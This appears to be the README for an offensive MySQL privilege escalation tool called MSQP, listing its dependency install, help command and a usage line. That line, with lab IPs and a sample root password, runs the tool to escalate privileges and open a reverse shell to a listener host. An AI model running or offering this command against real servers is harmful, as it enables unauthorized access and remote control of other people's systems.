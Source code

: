 # MSQP

This is a MySQL privilege escalation tool.


## Installation Dependencies

`$ python3 -m pip install mysql-connector-python`

![alt text](Pic/image.png)

## Usage

`$ python3 msqp.py -h`

![alt text](Pic/image-1.png)


## Privilege Escalation: Establishing a Reverse Shell

Before establishing a reverse connection, the tool will automatically check if privilege escalation conditions are met. If they are, it will automatically establish a reverse shell to the specified target.

`$ python3 msqp.py 192.168.101.128 3306 root R@v3nSecurity 192.168.101.144 10032`

![alt text](Pic/image-2.png)
